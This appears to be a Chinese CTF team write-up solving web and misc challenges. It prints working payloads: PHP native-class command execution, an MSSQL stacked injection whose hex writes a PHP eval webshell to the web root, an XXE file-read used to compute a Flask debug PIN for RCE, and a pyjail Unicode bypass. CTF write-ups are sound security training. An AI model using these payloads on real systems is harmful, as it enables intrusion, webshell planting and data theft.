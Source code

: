 # 夜店里的纯爱战神

**Member**

Zh1A0

## Web

### singin

访问环境在F12发现`shell.php`，访问直接给出了源码，查指纹得出PHP版本为5.6

通过GET传入7个参数`a`,`b`,`c`,`d`,`e`,`f`,`g`

然后有如下操作

~~~php
$class = new $a($b);
$str1 = substr($class->$c(),$d,$e);
$str2 = substr($class->$c(),$f,$g);
~~~

对参数有过滤，逻辑如下

~~~php
preg_match("/Error|ArrayIterator|SplFileObject/i", $a)
preg_match("/php/i", $b)
preg_match("/Error|ArrayIterator/i")
~~~

这题肯定是用到能返回字符串的原生类，然后来截取执行命令的，能返回字符串的原生类还可以用的有`Ecxeption`,在`b`中传入我们要执行的命令`system("cat f*")'`,然后在本地调试根据报错内容来确定截取的长度

payload：

`a=Exception&b=systemcat f*&c=__toString&d=36&e=6&f=42&g=6`

### ezsql

题目描述数据库语句为MSSQL，并且直接给了语句`SELECT id FROM dbo.users WHERE id = `

测试得出为数字型，只会回显第一个语句的结果，有过滤

`blacklist:`$ % & * " ' < > create insert 空格

描述中说题目在服务器里面，所以最后肯定是要拿shell的

先用`AND`根据报错信息得出数据库版本，用户权限等基本信息

引号被过滤了可以利用16进制转换得出

~~~sql
1AND(@@version)=1
#Microsoft SQL Server 2017 (RTM-CU31-GDR) (KB5021126) - 14.0.3460.9 (X64) Jan 25 2023 08:42:43 Copyright (C) 2017 Microsoft Corporation Developer Edition (64-bit) on Linux (Ubuntu 18.04.6 LTS)
1AND(IS_SRVROLEMEMBER(CONVERT(varchar,0x73797361646D696E)))=1
#sysadmin->TRUE
1AND(IS_ROLEMEMBER(CONVERT(varchar,0x64625F6F776E6572)))=1 
#db_owner->TRUE
~~~

得出是MSSQL2017的linux版本

没有过滤`;`，我们可以采取堆叠注入

参考[aleenzz/MSSQL_SQL_BYPASS_WIKI: MSSQL注入提权,bypass的一些总结 (github.com)](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI)

用`0x1e`等字符编码绕过空格，用`declare`声明局部变量，mssql变量支持16进制，所以用16进制对变量进行赋值，来绕过对引号的过滤，然后利用log备份来向同级目录写shell

~~~sql
1;declare@svarchar(2000)set@s=0x6261636b75702064617461626173652063746620746f206469736b203d20272f7661722f7777772f68746d6c2f6374662e70687027exec(@s)
1;CREATEtable[dbo].[test]([cmd] [image]);
1;INSERTintotest(cmd)values(0x3c3f70687020406576616c28245f4745545b27313233275d293b3f3e)
1;declare@svarchar(2000)set@s=0x6261636b75702064617461626173652063746620746f206469736b3d272f7661722f7777772f68746d6c2f6374662e70687027205749544820444946464552454e5449414c2c464f524d4154exec(@s)
~~~

然后访问ctf.php,执行`ls`看目录,然后读flag

### fake_login

打开是一个登陆框，看指纹，后端是Flask

F12看到一段JS代码，内容大概是，没用采用传统的表达提交数据，而是采用xml格式提交

到这里想到用xxe打，尝试读了几个文件，发现没什么发现，后端是Flask，直接进`/console`看

发现控制台锁了，需要pin码，这就很明显需要算pin来rce了

xxe读`/etc/passwd`得到用户名为`minictfer`，payload：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<user>
    <username>&xxe;</username>
    <password>password</password>
</user> 
```

读`/sys/class/net/eth0/address`得mac地址为`02:42:ac:11:00:07`

读`/proc/sys/kernel/random/boot_id`得为`0e3f1348-aaee-4680-ae33-6b3d626a9c91`

再读了一下`/proc/self/cgroup`发现是空的，当时这里卡了，就想着去再读类似的目录去得出后一段机器码，结果算出来的pin码是错的，去问了xlccccc才反应过来`/proc/self/cgroup`是空的机器码直接用`0e3f1348-aaee-4680-ae33-6b3d626a9c91`就好了

然后再构造一个错误的xml格式根据页面的报错得出目录为`/usr/local/lib/python3.9/site-packages/flask/app.py`

有了这些算机器码的要素就能构造pin码了，不过需要注意的是这里的为python3，构造pin码脚本里的哈希函是`sha1`

根据网上的脚本(这里就不贴了)构造pin码进调试控制台，执行命令看环境变量，找到flag

## Misc

### (picture_out_of_voice)*2

题目给了一个压缩包，解压里面是一个未知格式名为pwd文件和一个加密的flag压缩包，显然是要通过pwd文件获取密码来解压的，放入010editor看，是一个wav格式的文件，放入到Audacity中看，看频谱图看到了解压密码，解压flag压缩包得到一个png格式，接近3.6M，猜测里面应该是藏了另一个文件，定位到文件尾，发现了前半段flag，在后面是一个音频格式的文件，同时前半段flag也给出了提示`it work with SSTV`，然后上网查了一下SSTV

相关资料，SSTV是可以根据音频转换成图片，下载了RXSSTV根据教程将分离出来的音频文件robot36解码转成图片得后半段flag

### pycalculator

一道比较有趣**pyjail**的题目

连接环境后是一个类似计算器的东西，会把输入的表达式执行并返回结果

简单测试了一下，过滤了所有字母，然后长度的限制为32

最后拿flag肯定是要通过命令执行的，但是python没有PHP的特性可以构造无字母的命令执行

搜索了一下在这篇文章中找到了绕过的办法（[一道有趣的pyjail题目分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/9271#toc-1)）

在python3支持Non-ASCII Identifies，也就是可以把Unicode编码的字母当作代码来执行，意思就是在表达式中输入斜体或者其他特殊字体的字母，也是可以当作代码来执行的，但是传入函数的参数不行，传入函数的参数我们可以用八进制来绕过，最后构造的payload就是

~~~python
ｏｐｅｎ('\146\154\141\147','\162').ｒｅａｄ()
#open("flag","r").read()
~~~



